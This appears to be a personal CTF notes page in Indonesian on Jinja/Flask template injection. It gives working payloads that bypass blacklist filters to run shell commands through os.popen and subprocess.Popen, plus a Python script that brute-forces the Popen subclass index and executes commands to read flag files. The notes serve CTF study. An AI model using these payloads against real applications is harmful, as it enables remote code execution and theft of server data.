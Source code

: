 ```yaml
---
title: "My CTF - Notes"
description: ""
pubDate: 2025-07-25 10:00
slug: "ctf-notes"
---
```


- [Web](#web)
    1. [SSTI](#ssti)

Ini adalah catetan saya yang dibuat secara personal berdasarkan pengalaman saya yang telah mengerjakan ctf selama ini

# Web

## SSTI

ada chall ini, diberikan program berikut:

```py
def security_filter(user_input):
 blacklist = ["%", "\\", "/", "\"", "'", "`", "|", " ", "[", "]", "+","init", "subprocess", "globlas", "config", "update", "mro", "subclasses",
"class", "base", "builtins", "cycler", "joiner", "namespace", "lipsum"]

 for word in blacklist:
    if word in user_input:
        return False
 return True
 ```

 payload untuk bypass : `{{url_for.__globals__.os.popen(request.headers.tel).read()}}`

 req header:
```
POST /search HTTP/1.1
Host: 103.160.212.3:1339
Content-Length: 70
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://103.160.212.3:1339
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Tel: cat /flag.txt   -> ini variabel baru
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,
like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/a
png,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://103.160.212.3:1339/

Accept-Encoding: gzip, deflate, br
Connection: keep-alive

query={{url_for.__globals__.os.popen(request.headers.tel).read()}}
```
atau bisa juga
```
{{url_for.__globals__.os.popen(request.args.a).read()}}
```

![alt text](image-2.png)

---

The regex expression is `/^[0–9a-z ]+$/i`

- Only numbers and lowercase
- Key insensitive

![alt text](image.png)

![alt text](image-1.png)

---

The Regex filter bypass is:

`/(\b)(on\S+)(\s*)=|javascript|<(|\/|[^\/>][^>]+|\/[^>][^>]+)>|({+.*}+)/`


```



{system('whoami')

}


```

---

```py
blacklists =['os', 'sys', 'import','subprocess', 'shutil', 'tempfile', 'pickle', 'marshal',
            'write', 'eval', 'exec', 'system', 'popen', 'open',
            'call', 'check_output', 'check_call', 'startfile', 'remove', 'unlink',
            'rmdir', 'remove', 'rename', 'replace', 'chdir', 'chmod', 'chown',
            'chroot', 'link', 'lchown', 'listdir', 'lstat', 'mkdir', 'makedirs',
            'mkfifo', 'mknod', 'open', 'openpty', 'remove', 'removedirs',
            'rename', 'renames', 'rmdir', 'stat', 'symlink', 'unlink', 'walk', 'write',
            'popen', 'builtins', 'global'] 
```

pertama cari dulu class2 nya pake ini:
```
{{ dict.__base__.__subclasses__()[50:100] }}
```

intinya kita harus dapetin class seperti `Popopen` buat bisa ngelakuin command, nah kita harus cari di index mana, jadi bisa pake script ini buat nyari biar ga cape nge brute:
```py
import requests
from bs4 import BeautifulSoup

# Konfigurasi
url = "http://localhost:8888/card"
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

# Fungsi untuk kirim payload dan ambil hasil render
def send_payload(payload):
    try:
        res = requests.post(url, data=f"name={payload}", headers=headers, timeout=5)
        soup = BeautifulSoup(res.text, "html.parser")
        return soup.get_text()
    except Exception as e:
        return f"[!] Error: {e}"

# 1. Cari index dari subprocess.Popen
def find_popen_index(start=0, end=500):
    print("[*] Searching for subprocess.Popen...")
    for i in range(start, end):
        payload = f"{{{{ dict.__base__.__subclasses__()[{i}] }}}}"
        result = send_payload(payload)
        if "subprocess.Popen" in result:
            print(f"[+] Found subprocess.Popen at index: {i}")
            return i
    print("[!] subprocess.Popen not found")
    return None

# 2. Eksekusi perintah via subprocess.Popen
def execute_command(popen_index, command="cat /flag.txt"):
    payload = (
        f"{{{{ dict.__base__.__subclasses__()[{popen_index}]("
        f"'{command}', shell=True, stdout=-1).communicate() }}}}"
    )
    print(f"[*] Executing: {command}")
    result = send_payload(payload)
    print("\n[+] Command Output:\n", result.strip())

# Main
if __name__ == "__main__":
    popen_index = find_popen_index()
    if popen_index is not None:
        execute_command(popen_index)
```

misal kita dapet class `subprocess.Popen` di index `371` kita tinggal masukin command:

```
{{ dict.__base__.__subclasses__()[371]("cat /flag.txt", shell=True, stdout=-1).communicate() }}
```

tapi untuk chall ini, letak flag di letakkan di luar main dir `/app`, sedangkan flag di taruh di `/`, sehingga kita bisa modifikasi command nya jadi:

```
{{ dict.__base__.__subclasses__()[371]("for f in /?*.txt; do cat $f; done", shell=True, stdout=-1).communicate() }}
```

